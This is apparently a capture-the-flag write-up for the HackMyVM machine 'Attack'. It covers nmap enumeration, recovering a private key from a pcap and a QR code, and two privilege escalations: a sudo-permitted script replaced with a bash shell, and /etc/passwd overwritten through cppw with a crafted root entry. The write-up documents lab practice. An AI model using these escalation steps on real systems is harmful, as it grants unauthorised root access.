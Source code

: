 ```yaml
---
layout: post
author: kohaku
title:  "Attack"
date:   2022-01-01 09:54:07 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Attack)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 13:23:08 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.53
Nmap scan report for 192.168.0.53
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f4:8d:08:b4:99:d2:0c:5d:75:b8:22:83:7b:c2:88:15 (RSA)
|   256 e2:16:0a:e7:38:4a:ec:76:cf:d3:56:78:07:fd:2f:25 (ECDSA)
|_  256 0b:5a:9c:71:cc:3b:50:04:46:18:ad:67:8a:df:d0:d6 (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 13:23:21 2021 -- 1 IP address (1 host up) scanned in 12.96 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
I did a capture with wireshark. 
The name of the file is "capture" but i dont remember the extension :(
{% endhighlight  %}

{% highlight bash  %}
wget $IP/capture.pcap
{% endhighlight  %}

# Wireshark

On TCP stream 2. We can see a `zip` file 

File > Export Objects > HTTP → Download the file

This zip has a image and it’s a QRCode, go to [https://zxing.org/w/decode.jspx](https://zxing.org/w/decode.jspx) and decode this image

{% highlight text  %}
http://localhost/jackobattack.txt -> Decoded message
{% endhighlight  %}

# User

{% highlight bash  %}
wget $IP/jackobattack.txt
{% endhighlight  %}

This file it’s the jackob private key 

# Root - Part 1

{% highlight bash  %}
sudo -l

User jackob may run the following commands on attack:
    (kratos) NOPASSWD: /home/jackob/attack.sh
{% endhighlight  %}

We can create a new attack.sh file and add `/bin/bash` inside this file

Changed the file of attack.sh to attack.bkp

Create a new file called attack.sh and add:

{% highlight bash  %}
#!/bin/bash

/bin/bash
{% endhighlight  %}

Now use sudo has kratos

{% highlight bash  %}
sudo -u kratos /home/jackob/attack.sh
{% endhighlight  %}

# Root - Part 2

{% highlight bash  %}
sudo -l

User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw
{% endhighlight  %}

The cppw binary allows us to changed passwd or shadow file 

We can use `makepasswd` to create a new passwd and changed `/etc/passwd`  file

{% highlight bash  %}
echo -n "admin123" | makepasswd --crypt-md5 --clearfrom -
{% endhighlight  %}

Get the output password and create a file with it

{% highlight bash  %}
echo "root:\$1\$K8t2noVp\$wwpuT6JnNnPn91vkheLTT0:0:0:root:/root:/bin/bash" > passwdfile
Remember to escape the $
{% endhighlight  %}

{% highlight bash  %}
sudo /usr/sbin/cppw passwdfile
su root #Use the previous password
{% endhighlight  %}